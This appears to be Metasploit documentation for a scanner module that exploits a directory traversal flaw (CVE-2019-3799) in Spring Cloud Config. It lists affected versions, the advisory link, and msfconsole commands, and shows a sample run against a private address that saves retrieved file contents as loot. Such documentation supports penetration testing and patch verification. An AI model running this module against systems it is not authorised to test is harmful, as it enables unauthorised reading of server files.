 ## Vulnerable Application

his module exploits an unauthenticated directory traversal vulnerabilitywhich exists in spring cloud config, versions 2.1.x prior to 2.1.2,versions 2.0.x prior to 2.0.4, and versions 1.4.x prior to 1.4.6, which islistening by default on port 8888.

<b>Related links :</b>

* https://pivotal.io/security/cve-2019-3799

## Verification

```
Start msfconsole
use auxiliary/scanner/http/springcloud_traversal
set RHOSTS
run
```

## Scenarios

```
msf > use auxiliary/scanner/http/springcloud_traversal 
msf auxiliary(scanner/http/springcloud_traversal) > set RHOSTS 192.168.1.132
RHOSTS => 192.168.1.132
msf auxiliary(scanner/http/springcloud_traversal) > run

[+] File saved in: /home/input0/.msf4/loot/20190418203756_default_192.168.1.132_springcloud.trav_893434.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/springcloud_traversal) >
```

<b>Tested against :</b><br>
`Linux zero 4.15.0-48-generic #51-Ubuntu SMP Wed Apr 3 08:28:49 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux`

<b>Vulnerable software link :</b>
* https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.1.RELEASE.zip
